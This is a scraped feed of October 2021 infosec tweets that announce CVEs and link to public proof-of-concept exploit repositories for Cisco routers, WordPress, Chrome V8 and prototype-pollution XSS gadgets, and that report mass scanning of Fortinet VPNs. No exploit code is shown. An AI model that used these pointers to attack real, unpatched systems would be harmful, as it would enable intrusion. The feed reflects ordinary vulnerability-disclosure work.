<td>Retweets: <code>89</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# habib_karatas
**https://twitter.com/habib_karatas/status/1445296397302050818 _at 2021-10-05 07:54:48_**
<blockquote>
CVE-2021-34730 : Cisco RV110W UPnP 0day Vulnerability

Sistemci arkadaşlara başarılar :)
https://t.co/Ew4v4cAdxj
</blockquote>

* https://github.com/badmonkey7/CVE-2021-34730

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# YogoshaOfficial
**https://twitter.com/YogoshaOfficial/status/1445028673652932618 _at 2021-10-04 14:10:57_**
<blockquote>
Found a prototype pollution but wondering how to escalate it ? You can check this repository to find gadgets in different JS libraries and get an easy XSS.

Repo: https://t.co/pYWYvBpn9r

Thanks to @BelkahlaAhmed1 for this tip and welcome to Yogosha's cyber team ! 

#bugbounty https://t.co/NDqZCYZRwo
</blockquote>

* https://github.com/BlackFan/client-side-prototype-pollution

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1444902961025531904 _at 2021-10-04 05:51:25_**
<blockquote>
The fugitive in Java: Escaping to Java to escape the Chrome sandbox  https://t.co/209BcBwzt4  #Pentestng #Java #WebSecurity #Infosec https://t.co/9A6exbMym6
</blockquote>

* https://securitylab.github.com/research/chrome_sbx_java/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# idsec_
**https://twitter.com/idsec_/status/1444667196731375622 _at 2021-10-03 14:14:34_**
<blockquote>
WordPress 5.6-5.7 - Authenticated (Author+) XXE (CVE-2021-29447)

https://t.co/tDv7eE0dWk
</blockquote>

* https://github.com/motikan2010/CVE-2021-29447

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1444487410092417028 _at 2021-10-03 02:20:10_**
<blockquote>
#exploit
CVE-2021-34730:
A vulnerability (stack overflow) in the Universal Plug-and-Play (UPnP) service of Cisco Small Business RV110W, RV130, RV130W, RV215W Routers (0day)
https://t.co/iyTzSTGDJ3

@TodayCyberNews
</blockquote>

* https://github.com/badmonkey7/CVE-2021-34730

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>6</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1444487404182650881 _at 2021-10-03 02:20:09_**
<blockquote>
Top 10 Most Used Vulns of the Month (Sep 1-30)
#Analytics

CVE-2021-40444 - Microsoft MSHTML RCE

CVE-2021-26084 - Confluence Server Webwork OGNL Inj

CVE-2021-22005 - vCenter Server contains - arbitrary file upload

#CVE #bugbountytips #bugbounty #cybersecurity #infosec https://t.co/E7JWhFT4VD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1444407365181132801 _at 2021-10-02 21:02:06_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# 0xc7m
**https://twitter.com/0xc7m/status/1443952620423495710 _at 2021-10-01 14:55:06_**
<blockquote>
CVE-2021-30632 Chrome V8 RCE Exploit for Windows
https://t.co/g3z59DtAdl 
JS #POC https://t.co/jJFU9ctLaF
#CVE #infosec #redteam https://t.co/7yAdo2E48b
</blockquote>

* https://github.com/Lagal1990/CVE-2021-30632
* https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE-2021-30623/poc.js

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

